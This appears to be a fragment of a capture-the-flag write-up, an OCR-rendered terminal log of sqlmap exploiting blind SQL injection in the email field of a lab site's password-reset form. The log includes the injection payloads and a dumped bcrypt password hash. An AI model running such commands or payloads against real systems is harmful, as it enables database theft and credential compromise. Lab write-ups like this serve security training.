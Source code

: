 ```bash
[23:37:09] [INFO] retrieved: 13
[23:37:20] [INFO] retrieved: _____________
```

```bash
$ sqlmap -r request.txt --data="_token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold" -p email --batch --level 5 --risk 3 --threads 10 -D usage_blog -T users -C password --dump

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:34:22 /2024-08-06/

[23:34:22] [INFO] parsing HTTP request from 'request.txt'
[23:34:22] [INFO] resuming back-end DBMS 'mysql' 
[23:34:22] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 5458=(SELECT (CASE WHEN (5458=5458) THEN 5458 ELSE (SELECT 4624 UNION SELECT 6593) END))-- UEue

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 1208=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- zgvX
---
[23:34:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[23:34:25] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'usage_blog'
[23:34:25] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'usage_blog'
[23:34:25] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
5
[23:34:38] [INFO] retrieving the length of query output
[23:34:38] [INFO] retrieved: 60
[23:37:09] [INFO] retrieved: $2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4.             
[23:37:09] [INFO] retrieving the length of query output
[23:37:09] [INFO] retrieved: 60
[23:37:19] [INFO] retrieved: ____________________________________________________________
```
